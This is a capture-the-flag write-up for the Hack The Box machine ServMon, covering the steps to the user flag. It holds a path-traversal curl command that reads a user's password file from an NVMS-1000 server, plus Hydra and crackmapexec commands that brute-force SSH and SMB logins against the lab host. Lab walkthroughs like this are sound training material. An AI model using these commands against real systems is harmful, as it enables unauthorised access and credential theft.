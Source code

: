 ## ServMon

Difficulty: Easy
https://app.hackthebox.com/machines/ServMon

### User Flag

```
sudo rustscan -a 10.10.10.184 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://user-images.githubusercontent.com/58514930/234736772-f5c1a23e-9df3-49b3-aa86-64afa0e779ed.png)

<br>

Anonymous FTP login is possible.

Possible users: Nadine and Nathan.

![ftp notes](https://user-images.githubusercontent.com/58514930/234736874-ea9dd4b9-a06b-4ea0-a3af-0538994af0f3.png)

<br>

Website uses NVMS - 1000.

![website](https://user-images.githubusercontent.com/58514930/234736930-1967f399-b33c-4993-b9b2-61feb2101049.png)

<br>

Find this [public exploit](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py).

```
curl http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt --path-as-is
```

![gettingPasswords](https://user-images.githubusercontent.com/58514930/234737079-b4a78aef-8cd3-4f02-b199-66f5b257b6d7.png)

Used Hydra to find the correct credentials on SSH, buy could also enumerate on smb with crackmapexec.

```
hydra -l nadine -P password.txt 10.10.10.184 ssh -V
crackmapexec smb 10.10.10.184 -u nadine -p password.txt
```

![hydraSSH](https://user-images.githubusercontent.com/58514930/234737211-b98e82ad-d4b3-44f0-8fcb-409ba587e63a.png)

![smbEnumeration](https://user-images.githubusercontent.com/58514930/234737227-a57d936d-bd0d-4e52-b613-381a948a096f.png)

Just login into SSH with this credentials and get the user flag.
